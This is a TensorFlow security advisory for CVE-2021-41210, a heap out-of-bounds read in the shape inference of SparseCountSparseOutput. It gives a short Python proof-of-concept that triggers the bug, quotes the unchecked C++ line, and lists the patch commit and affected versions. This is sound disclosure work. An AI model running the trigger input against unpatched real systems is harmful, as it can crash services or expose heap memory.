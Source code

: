 ## TFSA-2021-188: Heap OOB read in `tf.raw_ops.SparseCountSparseOutput`

### CVE Number
CVE-2021-41210

### Impact
The [shape inference functions for `SparseCountSparseOutput`](https://github.com/galeone/tensorflow/blob/e0b6e58c328059829c3eb968136f17aa72b6c876/tensorflow/core/ops/count_ops.cc#L43-L50) can trigger a read outside of bounds of heap allocated array:

```python
import tensorflow as tf

@tf.function
def func():
  return tf.raw_ops.SparseCountSparseOutput(
    indices=[1],
    values=[[1]],
    dense_shape=[10],
    weights=[],
    binary_output= True)

func()
```

The function fails to check that the first input (i.e., `indices`) has rank 2:

```cc
  auto rank = c->Dim(c->input(0), 1);
```

### Patches
We have patched the issue in GitHub commit [701cfaca222a82afbeeb17496bd718baa65a67d2](https://github.com/galeone/tensorflow/commit/701cfaca222a82afbeeb17496bd718baa65a67d2).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
